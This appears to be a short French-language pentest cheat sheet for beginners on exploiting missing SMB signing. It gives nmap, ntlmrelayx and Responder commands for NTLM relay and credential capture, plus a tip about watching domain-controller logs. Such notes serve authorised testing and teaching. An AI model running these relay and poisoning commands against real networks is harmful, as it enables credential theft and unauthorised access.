 # SMB Signing Bypass

## Objectif
Exploiter l'absence ou la mauvaise configuration de la signature SMB pour réaliser des attaques de type relay ou man-in-the-middle.

---

## Explications vulgarisées
- La signature SMB permet de garantir l'intégrité des communications. Si elle est désactivée, un attaquant peut intercepter ou modifier les échanges (attaque relay, NTLM relay, etc.).

---

## Commandes et étapes essentielles

### 1. Vérification de la configuration SMB Signing
```bash
nmap --script smb2-security-mode -p 445 target.com
```
- **smb2-security-mode** : Indique si la signature SMB est requise ou non.
- **Exemple de sortie** :
```
| smb2-security-mode: 
|   2.02: 
|     Message signing enabled but not required
```
- **À surveiller** : "not required" = vulnérable.

### 2. Exploitation avec ntlmrelayx (Impacket)
```bash
ntlmrelayx.py -tf targets.txt -smb2support
```
- **ntlmrelayx.py** : Outil pour relayer des authentifications NTLM et obtenir un accès sur la cible.
- **Astuce débutant** : Préparer un fichier "targets.txt" avec les IPs des cibles.

### 3. Exploitation avec Responder
```bash
responder -I eth0
```
- **responder** : Outil pour empoisonner le réseau et capturer/relayer des identifiants NTLM.

---

## Conseils pour débutants
- Toujours vérifier si la signature SMB est "not required" avant de lancer une attaque relay.
- Attention à l'impact réseau et aux logs sur les contrôleurs de domaine.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - SMB Relay](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/SMB%20Relay)
- [Impacket ntlmrelayx](https://github.com/SecureAuthCorp/impacket)
- [Responder](https://github.com/lgandx/Responder) 